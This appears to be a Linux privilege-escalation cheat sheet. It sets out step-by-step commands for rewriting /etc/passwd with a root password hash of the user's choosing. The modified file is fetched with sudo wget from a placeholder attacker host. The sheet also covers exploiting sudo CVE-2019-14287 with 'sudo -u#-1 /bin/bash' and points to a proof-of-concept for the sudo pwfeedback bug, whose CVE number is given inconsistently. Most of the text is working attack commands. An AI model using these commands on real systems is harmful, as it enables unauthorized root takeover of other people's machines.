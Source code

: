 Victim
```
cp /etc/passwd /tmp/passwd
cat /etc/passwd

```
Attacker

```
Copy /etc/passwd content and put in a local file called passwd
Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
Copy output of the above command 
edit passwd
Replace x in root's line with the copied output
Save the file
python -m SimpleHTTPServer 9000 // You can use any port
```

Victim

```
sudo wget http://<attacker_ip>:9000/passwd -O /etc/passwd
su root // Enter the new root password you generated (Example: NewRootPassword)
id && whoami
```


# Sudo CVE
Expliot sudo with known CVE

CVE:

- CVE-2019-14287
- CVE-2019-16634

CVE-2019-14287

sudo -V // Get sudo version
sudo -l

Vulnerable output 
Output = (ALL,!root) NOPASSWD: /bin/bash 

```   
    sudo -u#-1 /bin/bash
    id && whoami
    
```

CVE-2019-16634

sudo -V // Get sudo version

sudo su root // If you type root's password , can you see the *****? // That means pw_feedback is enabled

Expliot PoC: https://github.com/saleemrashid/sudo-cve-2019-18634
